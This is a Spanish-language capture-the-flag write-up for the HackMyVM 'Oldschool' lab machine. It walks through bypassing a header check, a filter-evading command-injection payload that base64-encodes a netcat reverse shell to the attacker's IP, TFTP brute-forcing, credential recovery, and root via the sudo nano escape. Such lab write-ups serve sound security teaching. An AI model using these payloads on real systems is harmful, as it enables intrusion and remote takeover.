 ```yaml
---
layout: post
title: Oldschool - Hackmyvm
tags: [ctf, hackmyvm]
---
```


**Autor**: Cromiphi \\
**Dificultad**: Medio

![img](/imgs/write-ups/hackmyvm/oldschool/oldschool.png#center)

## Enumeración

Lo primero, un escaneo rápido de la máquina:

```
sudo nmap -p- 192.168.1.85       
Starting Nmap 7.93 ( https://nmap.org ) at 2022-12-21 14:54 EST
Nmap scan report for 192.168.1.85
Host is up (0.00013s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE
23/tcp open  telnet
80/tcp open  http
MAC Address: 08:00:27:24:8D:92 (Oracle VirtualBox virtual NIC)
```

### 80 (http)

Desde la página principal, al intentar hacer click en "tool" me redirige a "verification.php" y seguidamente a "denied.php" por lo que se tiene que producir una autentificación de algún tipo. Para esto utilizo Burpsuite.

Muy importante seleccionar en burpsuite que muestre también las respuestas ya que es ahí donde se encuentra la clave.

- Primero realizo la petición a "verification.php":

```
GET /verification.php HTTP/1.1
Host: 192.168.1.85
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/103.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Referer: http://192.168.1.85/
Upgrade-Insecure-Requests: 1
```

- A continuación, en la respuesta del servidor, encuentro una cabecera "Role" cuyo valor es "not admin".

```
HTTP/1.1 302 Found
Date: Wed, 21 Dec 2022 20:02:10 GMT
Server: Apache/2.4.54 (Debian)
Role: not admin
Location: ./denied.php
Content-Length: 0
Connection: close
Content-Type: text/html; charset=UTF-8
```

- Conociendo esto, pruebo a realizar la misma petición que antes pero añadiendo la cabecera **"Role: admin"**:

```
GET /verification.php HTTP/1.1
Host: 192.168.1.85
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/103.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Referer: http://192.168.1.85/
Role: admin  <------- Añadida
Upgrade-Insecure-Requests: 1
```

Ahora con la cabecera añadida, tengo acceso a "pingertool2000.php"

![img](/imgs/write-ups/hackmyvm/oldschool/oldschool_1.png#center)

## Explotación

En esta página es posible realizar un "command injection" y obtener una shell en el servidor.

Command injection:

- No está permitido el uso de comandos como "bash" o "echo" por lo que me salto esta restriccion usando commilas. Ej -> bas''h
- No está permitido el caracter ";" por lo que uso ${IFS}%0a para añadir un comando.
- Para evitar problemas de formato u otros posibles filtros, uso base64.

Primero obtengo en base64 la "reverse shell" a utilizar, en este caso uso una shell básica mediante netcat.

```
$ echo -n "nc -e /bin/bash 192.168.1.72 1239" | base64                                          
bmMgLWUgL2Jpbi9iYXNoIDE5Mi4xNjguMS43MiAxMjM5
```

En burpsuite modifico el valor "url" por mi payload para obtener la shell.

```
url=asdf.com${IFS}%0aec''ho%09"bmMgLWUgL2Jpbi9iYXNoIDE5Mi4xNjguMS43MiAxMjM5"%09|%09base64%09-d%09|%09bas''h
```

Y con esto he obtenido acceso en el servidor como www-data.

```
$ nc -lvnp 1239
listening on [any] 1239 ...
connect to [192.168.1.72] from (UNKNOWN) [192.168.1.85] 43188
$ whoami
www-data
```

Desde dentro del servidor, ejecuto "linpeas.sh" para realizar una enumeración de posibles métodos de escalado de privilegios y encuentro que se ha ejecutado el siguiente comando:

```
/usr/sbin/in.tftpd --listen --user fanny --address :69 --secure /srv/tftp
```

Con esta información utilizo el módulo "tftpbrute" de metasploit.

```
msf6 > use auxiliary/scanner/tftp/tftpbrute
[...] (configuración opciones)
msf6 auxiliary(scanner/tftp/tftpbrute) > run

[+] Found passwd.cfg on 192.168.1.85
[+] Found pwd.bin on 192.168.1.85
[+] Found pwd.cfg on 192.168.1.85
[+] Found sip.cfg on 192.168.1.85
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```

Y ahora intento descargar los archivos.

```
$ tftp 192.168.1.85
tftp> connect
(to) 192.168.1.85
tftp> status
Connected to 192.168.1.85.
Mode: netascii Verbose: off Tracing: off Literal: off
Rexmt-interval: 5 seconds, Max-timeout: 25 seconds
tftp> get passwd.cfg
```

El único archivo que consigo descargar es "passwd.cfg".

```
$ cat passwd.cfg 
# lesspass default config password generator
# do not delete

lesspass oldschool.hmv fanny 14mw0nd32fu1
```

Con esta información, navego a la página oficial de [lesspass](https://www.lesspass.com/#/) y relleno con los datos de passwd.cfg para obtener una contraseña.

![img](/imgs/write-ups/hackmyvm/oldschool/oldschool_2.png#center)

Con esta contraseña inicio sesión mediante telnet y el usuario "fanny".

```
$ telnet 192.168.1.85 23
Trying 192.168.1.85...
Connected to 192.168.1.85.
Escape character is '^]'.
Debian GNU/Linux 11
oldschool.hmv login: fanny
Password: 
Linux oldschool.hmv 5.10.0-19-amd64 #1 SMP Debian 5.10.149-2 (2022-10-21) x86_64
[...]
fanny@oldschool:~$ :)
```

## Escalado de privilegios

Ejecutando sudo -l se puede ver que fanny tiene permisos para ejecutar "nano" como root sobre el fichero /etc/snmp/snmpd.conf.

```
fanny@oldschool:~$ sudo -l
Matching Defaults entries for fanny on oldschool:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User fanny may run the following commands on oldschool:
    (ALL : ALL) NOPASSWD: /usr/bin/nano /etc/snmp/snmpd.conf
```

Se puede escalar privilegios de la siguiente manera [GTFObins Nano](https://gtfobins.github.io/gtfobins/nano/#sudo):

```
sudo nano
^R^X
reset; sh 1>&0 2>&0
```

Y con esto se termina la máquina.

```
$ sudo /usr/bin/nano /etc/snmp/snmpd.conf
[...]
# id; hostname
uid=0(root) gid=0(root) groups=0(root)
oldschool.hmv
# :) 
```

Muchas gracias  **Cromiphi** por esta máquina.
